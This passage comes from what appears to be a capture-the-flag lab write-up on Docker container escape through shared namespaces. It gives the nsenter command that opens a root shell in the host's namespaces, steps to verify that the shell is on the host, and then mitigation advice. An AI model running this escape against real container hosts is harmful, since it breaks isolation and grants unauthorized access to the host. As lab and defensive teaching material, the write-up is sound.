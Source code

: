 2. **Namespace Options**:
   - `--mount`: Accesses the mount namespace of the target process, providing access to host filesystems.
   - `--uts`: Shares the same hostname as the target process.
   - `--ipc`: Allows access to shared memory and semaphores.
   - `--net`: Shares the network namespace, enabling interaction with network interfaces.

3. **Shell Execution**:
   - Executes a shell (`/bin/bash`) within the target process's namespaces.

#### **Example Exploit Steps**
1. Run the exploit in the container:
   ```bash
   nsenter --target 1 --mount --uts --ipc --net /bin/bash
   ```
2. Verify you're on the host:
   ```bash
   hostname
   ```
   Example output:
   ```
   thm-docker-host
   ```

3. Explore the host filesystem:
   ```bash
   ls /
   ```

---

### **Security Implications and Mitigation**

#### **Why is Namespace Sharing Dangerous?**
- Containers can directly interact with the host, bypassing isolation.
- Attackers can access host filesystems, processes, and network interfaces.
- Privilege escalation to root is straightforward.

#### **Mitigation Strategies**
1. **Avoid Namespace Sharing**:
   - Do not share host namespaces with containers unless absolutely necessary.

2. **Use Namespace Isolation**:
   - Use Docker's `--userns-remap` feature to enable user namespace isolation.

3. **Minimize Privileges**:
   - Avoid running containers as root.
   - Drop unnecessary capabilities using `--cap-drop`.

4. **Audit Container Configurations**:
   - Regularly inspect Docker configurations for misconfigurations or excessive privileges.

5. **Monitor and Restrict `nsenter`**:
   - Restrict access to tools like `nsenter` that can manipulate namespaces.

---

By understanding namespaces and their vulnerabilities, you can better secure containerized environments against potential exploits.
